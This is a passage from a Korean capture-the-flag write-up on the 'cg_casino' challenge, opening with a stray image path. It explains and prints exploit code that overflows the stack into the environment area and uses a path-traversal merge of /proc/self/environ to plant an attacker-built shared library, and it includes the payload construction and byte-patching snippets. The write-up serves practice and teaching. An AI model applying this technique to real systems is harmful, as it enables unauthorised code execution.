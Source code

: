 실제로 stack의 끝에 있는 환경변수까지 값을 덮어보니 다음과 같이 `/proc/self/environ` 파일이 변경된 것을 확인할 수 있었다.
``` bash
cg_casino@3197b44a521a:~/voucher$ cat /proc/1241/environ
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
...
```
따라서 이런 식으로 stack의 값을 조작해서 `/proc/self/environ`에 파일의 형태로 남길 수 있다.

### Stack overflow & File copy
`/proc/self/environ`에 libc 데이터를 쓰고 그것을 `/home/cg_casino/voucher`로 가져오기 위한 조건은 총 3개이다.
- main의 new가 `/home/cg_casino/voucher`에 저장할 파일명일 것
- main의 old가 길이가 32이고 `/proc/self/environ` 파일을 가리킬 것
- stack 끝의 환경변수가 저장된 공간에 libc 데이터가 쓰여질 것

따라서 다음과 같이 payload를 구성했다.
``` python
    payload = b"mylib.so\x00"
    payload += b"\x00" * (env - buf - len(payload))
    payload += lib_data
    payload += b"\x00" * (3432 - (len(payload)))
    put_voucher(s, payload)

    merge_voucher(s, b"../../../../../proc/self/environ")
```
한편 이 과정에서 `read_401108()`를 이용해서 입력을 받기 때문에 libc에 `\x0a`가 있으면 데이터가 짤릴 위험이 있다.

실제로도 `\x0a`가 있어서 혹시나 하는 마음에 `\x0b`로 바꿔봤는데 다행히 libc가 잘 작동했다.
``` python
    with open("./mylib.so", "rb") as f:
        lib_data = f.read()
    lib_data = lib_data.replace(b"\x0a", b"\x0b")
```
따라서 위 payload를 추가해주어야 한다.

### Small libc
여기에서 문제가 하나 더 있는데 환경변수 영역도 한도가 있기 때문에 `merge voucher`로 가져올 수 있는 데이터 길이가 제한되어있다.
``` bash
root@3197b44a521a:/home/cg_casino/voucher# ls -al
total 16
drwxrwx-wx 1 root      root      4096 Aug  1 05:24 .
drwxr-xr-x 1 root      root      4096 Jul 31 08:08 ..
-rw